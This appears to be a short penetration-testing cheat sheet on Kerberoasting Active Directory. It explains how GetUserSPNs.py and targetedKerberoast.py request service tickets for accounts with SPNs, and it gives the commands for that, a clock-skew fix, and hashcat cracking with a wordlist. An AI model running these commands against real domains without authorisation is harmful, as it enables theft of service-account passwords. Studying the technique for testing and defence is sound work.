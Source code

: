 ## GetUserSPNs.py
GetUserSPNs.py queries DC for Active Directory user accounts that have Service Principal Names (SPNs) set.
These accounts often have Kerberos service tickets (TGS) that you can request and potentially crack offline to recover their plaintext password.
This is the basis of a Kerberoasting attack.

Specifically, the script:
- Authenticates to the DC using provided credentials.
- Queries LDAP for all user accounts with SPNs (servicePrincipalName attribute).
- Requests TGS tickets for those SPNs.
- Dumps the tickets in a hash format (Kerberos 5 TGS-REP hashes) suitable for offline cracking (e.g., with hashcat or john).
```
# Add domain to /etc/hosts so it resolves
GetUserSPNs.py <domain>/<user>:<password> -request -save
```

## TargetedKerberos.py
Useful for abusing certain Bloodhound edges.

https://github.com/ShutdownRepo/targetedKerberoast.git
```
targetedKerberoast.py -v -d '<domain>' -u '<Owned USer>' -p '<password>'
```
In case of below error
```
[!] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
Simply do
```
sudo ntpdate <Domain controller>
```
Crack the hash using hashcat
```
hashcat -a 0 -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
